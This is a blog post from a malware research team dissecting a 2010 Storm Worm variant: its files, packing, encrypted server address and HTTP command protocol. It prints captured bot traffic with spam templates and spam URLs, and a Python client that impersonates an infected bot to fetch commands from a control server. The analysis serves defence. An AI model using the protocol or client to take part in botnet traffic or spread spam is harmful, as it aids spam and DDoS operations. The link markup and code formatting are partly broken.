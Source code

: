 ```yaml
---
title: "A Breeze of Storm"
authors: ["Felix Leder"]
date: "2010-04-28"
categories: 
  - "encryption"
tags: 
  - "storm-worm"
  - "stormfucker-d69"
---
```


Today, Steven Adair from Shadowserver imformed us about a new piece of malware that looks like a new version of the infamous Storm Worm. Storm was one of the first serious peer-to-peer botnets, it was sending out spam for more than two years until its decline in late 2008. Mark Schloesser, Tillmann Werner, Georg Wicherski, and I [Stormfucker](http://www.h-online.com/security/news/item/Storm-Worm-botnet-cracked-wide-open-739607.html>did some work on how to take down Storm</a> back then, so the rumors about a new version caught our interest. Mark, Tillmann, and me started to take the sample apart, and it looks very much like Storm indeed. It even uses the same configuration file, stored under C:\WINDOWS\herjek.config (the same filename as used by the last Storm version), but as the command-and-control channel has been replaced with an HTTP based version, there is no peer list included anymmore. When we looked at it, just contained two lines:
<code>
[config]
ID=285220200
</code>
This ID is also stored in the registry under HKLM/SOFTWARE/Microsoft/Windows/ITStorage/Find, together with a mutex name that prevents execution of multiple instances of the malware on one machine.
<div></div>
[image:538 align=center node=538 size=original]
<div></div>
Just like Storm, this new malware decompresses itself into a heap section and jumps to the unpacked code. We just dumped the heap section to a file and fixed the imports to get an executable we can analyze conveniently.
<div></div>
Although this is already pretty good evidence that the two specimens are related, the question remains whether this is really a new Storm version, so let's have a look at the actual functionality. We compared the last version of storm to the new samples. Around 2/3s of the functions in the new sample are simply copy&paste from the last storm code base. Since the source code of storm has never been public, the same team of developers has finally created a new variant or sold it's code.
The original version was rather large, having more than 800 function. A large portion of this was the P2P code. This is missing completely in the new version and the actual command protocol is based on HTTP instead of plain TCP connections. We wonder if they don't rely on P2P anymore because of the attack implemented in <a href=).

The HTTP request looks like this: `POST /aio.jpg HTTP/1.1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1) Host: [sanitized] Content-Length: 85 Connection: Keep-Alive Cache-Control: no-cache`

`a=eNozrFNMLC5OLMnMz6tTDM/MS8kvL1aICFAITi0qy0xOVQhITM5WMKpTNLQwMbG0tDQwNQeywcgAAGCpEo0HTTP/1.1 200 OK Server: nginx/0.7.65 Date: Tue, 27 Apr 2010 13:00:30 GMT Content-Type: text/html; charset=windows-1252 Transfer-Encoding: chunked Connection: close X-Powered-By: PHP/5.3.2

``78 AAAAXnheDYo5DsAgDATfwgNY2QaEeQ5HkgaRgtS8PS5Wox1NHXv6TJ5D9hxtQWEKe91dGLv1Z76tTqzrOy4TLISFRj2OjuOSIFEgpIj2hQrUFCs4/dVnGE0= 0`

All parameters and responses are base64 encoded and gzipped. Just like in the original Storm C&C protocol. The IP address of the server is hardcoded in the binary. Well, not really in the code but appended in encrypted form. The encryption is XTEA - the same cryptor used in early versions of Storm's packer.

The new version runs as "asam.exe". So, the authors have changed the executable's filename, but they either didn't look in the source code or were too lazy to change the name of the config file.

One method of command & control is implemented via HTTP requests. While looking at those requests we found another clue that this is actually a spinoff of Storm. The User-Agent is set to "Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1)" which includes the (intended?) typo "Windoss" instead of "Windows" (this has already been mentioned by Steven, also). The requested path on the server consists of three random letters concatenated with a random choice from gif, jpg, htm extensions.

Also notable is the use of nginx as the web server as revealed by "Server: nginx/0.7.65" in the response. This is probably then relaying the request to upper tier servers in the C&C structure.

The actual command protocol is identical to the original Storm protocol. It consists of a handshake with two phases.

Stage 1 looks the following: `Postdata: 1~!VM1~!Windows XP Service Pack 3~!82647280~!1~!1~!0 ---- START Response data ---- secretserver.internet.ru~!1.2.3.4~!0~!195.242.208.40~!209.85.218.15`

Sent is the command "1", the machine name, operating system version, and an ID which identifies the machine in the further communication. It's like a session key used in HTTP application. The reponse is a reverse lookup of the public IP address of the host, the public IP itself, and other servers, like a Google MX.

Stage 2 looks the following:

`Postdata: 2~!82647280~!1~!0~!0 ---- START Response data ----`

Many people thought that this stage is useless. Actually, we found an "update" command in this stage of the handshake, which we used in our "Stormfucker", two years ago.

After this initial handshake, different requests for Spam (command 3) and DDoS attacks (command 6) are sent to the server.

The request for DDoS target is shown in the following. The response is empty (IP address: 0.0.0.0). In case of active DDoS targets, the IP address can be seen here.

`Postdata: 6~!82647280~!1~!0 ---- START Response data ---- 0.0.0.0:0;0.0.0.0:0;1;1 0.0.0.0:0;0.0.0.0:0;2;1`

The spam part looks the following. The client sends the spam-request command and the server returns the spam-templates, including faked mail server versions, subjects, receipients, target-domains, ...

`Postdata: 3~!82647280~!1~!~! ---- START Response data ---- 5~!1272366542~!Date: %^D^% From: "%^C2%^Fnames^%^%" <%^V2^%@%^C1%^Fdomains^%^%> MIME-Version: 1.0 To: %^0^% Subject: %^Fpharma2^% Content-Type: text/plain; charset=%^Fcharset^% Content-Transfer-Encoding: 7bit Message-ID: <%^Z^%.%^R1-9^%0%^R0-9^%0%^R0-9^%0%^R0-9^%@%^V1^%>`

`%^Forder.txt^% %^Frxmeds.txt^% online today! %^Fbrowse.txt^% our web site today -> %^Frxdomains2.txt^%

``~!~!eximver~!1269613000~!4.04 4.05 ... ~!domains_old~!1271522172~!007-jamesbond.com 3rivers.net 800loadcel.com ... zzum.ro ~!datingURLOLD~!1271796799~!http://12n3.com/2414 http://12n3.com/2415 ... http://vilasta.com/?yMzZuoUt ... http://wapurl.co.uk/?YCLUEZM ~!shemaleBabe~!1272144785~!babes sexy cute hot nice ~!pharma2~!1272305961~!Disappointed with your bad performance in bed? Step up your performance in bed! for the best performance in bed.. ... Want great sex? Get.. ~!datingURLNew~!1272148944~!http://www.odun.net/78774 http://yiyd.com/457991/ ... http://fytopavenukyz.my`

Mark took some time to write a command fetcher and decoder. Have fun with it :) `#!/usr/bin/env python`

`import os, sys, urllib, urllib2, string, random, base64, zlib, datetime

extensions = ['.gif', '.jpg', '.htm']

def make_url(url): return url + ''.join([random.choice(string.lowercase) for i in range(3)]) + random.choice(extensions)

def get_url(turl, pdata): req = urllib2.Request(turl, urllib.urlencode(pdata)) req.add_header('Content-Type', 'application/x-www-form-urlencoded') req.add_header('Cache-Control', 'no-cache') req.add_header('User-Agent', 'Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1)') r = urllib2.urlopen(req) c = r.read() return c

def decode(raw): a = base64.b64decode(raw) b = zlib.decompress(a[a.find('x'):]) return b

def fetch(url, cmd): pdata = [('a', base64.b64encode(zlib.compress(cmd)).replace('=','') ),] furl = make_url(url) print ' Fetching', furl c = get_url(furl, pdata) print ' -> got', len(c), 'bytes' return c

def randomstr(length): return ''.join([random.choice(string.letters) for i in range(length)])

def randomdigits(length): return ''.join([random.choice(string.digits) for i in range(length)])

if __name__ == '__main__': from optparse import OptionError from optparse import OptionParser

version = """-------------------------- HTTP Command client for Storm worm 2 (supposedly) Version 1, by Honeynet Project --------------------------""" usage = '%s [-t target]' % sys.argv[0] parser = OptionParser(version=version, usage=usage)

parser.add_option('-t', dest='target', help='hostname/ip') (options, args) = parser.parse_args()

if not options.target: parser.print_help() sys.exit(1)

url = 'http://{0}/'.format(options.target)

seqnr = randomdigits(8) requests = [ '1~!{0}~!Windows XP Service Pack 3~!{1}~!1~!1~!0'.format(randomstr(8),seqnr), '2~!{0}~!1~!0~!0'.format(seqnr), '6~!{0}~!1~!0'.format(seqnr), '3~!{0}~!1~!~!'.format(seqnr), ]

print version print 'Using C&C URL', url

now = datetime.datetime.now() print 'Storing results in directory', str(now)

for r in requests: cmd = r[0] raw = fetch(url, r) dec = decode(raw) if not os.path.exists(str(now)): os.mkdir(str(now)) fpath = os.path.join(str(now), 'cmd_' + cmd + '.txt') fd = open(fpath, 'w') print >>fd, 'Requesting cmd {0} on {1}:'.format(cmd, url) print >>fd, 'Postdata:', r print >>fd, '---- START Response data ----' fd.write(dec) fd.close()

``print '-> Done.' sys.exit(0)`
